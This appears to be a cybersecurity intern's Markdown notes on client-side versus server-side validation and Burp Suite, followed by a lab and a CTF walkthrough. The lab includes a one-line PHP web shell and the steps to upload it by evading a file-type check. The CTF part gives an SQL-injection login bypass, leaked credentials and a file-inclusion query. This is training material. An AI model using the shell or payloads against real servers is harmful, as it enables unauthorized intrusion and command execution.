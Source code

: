 # 🧠 Day 2: Client-Side vs Server-Side Validation, Burp Suite, and CTF Walkthrough

## 📚 Topics Covered

### ✅ Client-Side vs Server-Side Validation

| **Aspect**           | **Client-Side Validation**                 | **Server-Side Validation**                     |
| -------------------- | ------------------------------------------ | ---------------------------------------------- |
| Performed On         | User’s browser                             | Web server                                     |
| Speed                | Faster (no server round trip)              | Slower (requires server communication)         |
| Security             | Less secure (can be bypassed by attackers) | More secure (cannot be easily bypassed)        |
| Example Technologies | JavaScript, HTML5 input types              | PHP, Python, Node.js, etc.                     |
| Purpose              | Improve UX, reduce server load             | Ensure data integrity and application security |

🔒 **Conclusion:** Always implement both types of validation. Never rely solely on client-side checks.

---

## 🛠️ Burp Suite Overview

**Burp Suite** is a powerful web vulnerability scanner and proxy tool used by ethical hackers and pentesters to:

- Intercept HTTP/HTTPS traffic between browser and server.
- Modify requests before they reach the server.
- Analyze headers, cookies, and form data.
- Perform automated scans and manual testing.

> 💡 **Definition:** Burp Suite acts as a **man-in-the-middle** proxy that captures and modifies HTTP requests/responses between your browser (frontend) and the server (backend).

### ⚔️ 3 Lines of Defense in Web Applications

1. **Source Code Formatting** – Modifying elements directly via browser dev tools.
2. **Header Analysis** – Viewing and editing request headers.
3. **Burp Suite Interception** – Full control of data flow using proxy.

If none of the above allow you to bypass validation, it is likely **server-side validated**.

> 🧠 **Note:** `.htaccess` or `.hea` files are often used to enforce server-side rules.

---

## 🔬 Lab: Upload PHP Web Shell Using Burp Suitre

### 🎯 Objective:

Exploit a vulnerable file upload feature to gain shell access to the server.

### 🧪 Steps Followed:

1. **Prepare a PHP File** disguised as a `.png`, like `shell.php.png`, containing: ```<?php system($_GET['cmd']); ?>```
2. Inspect the page, **modify the file input** accept attribute if needed.
3. Switch Burp Intercept **ON**.
4. **Upload the file** → Burp intercepts the request.
5. In Burp, change:  
        ```filename="shell.php.png"```  
       ```Content-Type: image/png```   
   to:   
        ```filename="shell.php"```  
       ``` Content-Type: application/x-php```  
6. **Forward the request** → Server accepts it.
7. **Access the file** via URL (e.g., ```/uploads/shell.php```) and use ```?cmd=ls```.

![Burp suite malware attack](https://github.com/ayanrfn/cybersecurity-internship-2025/blob/main/day2img/burp2.jpg)
### 🔍 Wappalyzer Extension
Wappalyzer is a browser extension used to identify backend and frontend tech stack such as:

- Languages (PHP, Python, Ruby)
-  Web servers (Apache, Nginx)
- Frameworks (Laravel, Django)
- CMS (WordPress, Joomla)

> 💡 **Note**:You can also analyze backend headers via Burp Repeater or server error messages.
---

### 🕹️ CTF Walkthrough
The CTF involved exploiting 3 vulnerabilities:

1️⃣ **SQL Injection (Authentication Bypass)**

    Used SQLi payload on login page:
    Username: admin'--
    Password: (blank)
    This bypasses login logic and logs you in as admin.

2️⃣ **Security Misconfiguration**

    Inspecting HTML revealed hardcoded credentials:
    <!-- Admin Username: administrator -->
    <!-- Admin Password: AdminPass2024 -->
    <!-- Admin URL: /admin -->  
    Used them to login into admin panel.

3️⃣ **LFI Attack (Local File Inclusion)**

    Input field in admin panel was vulnerable:
    ?q=flag.txt
    Retrieved flag from flag.txt

🏁 **Final Flag:**
```CTF{sql_injection_and_lfi_chain_complete}```




		




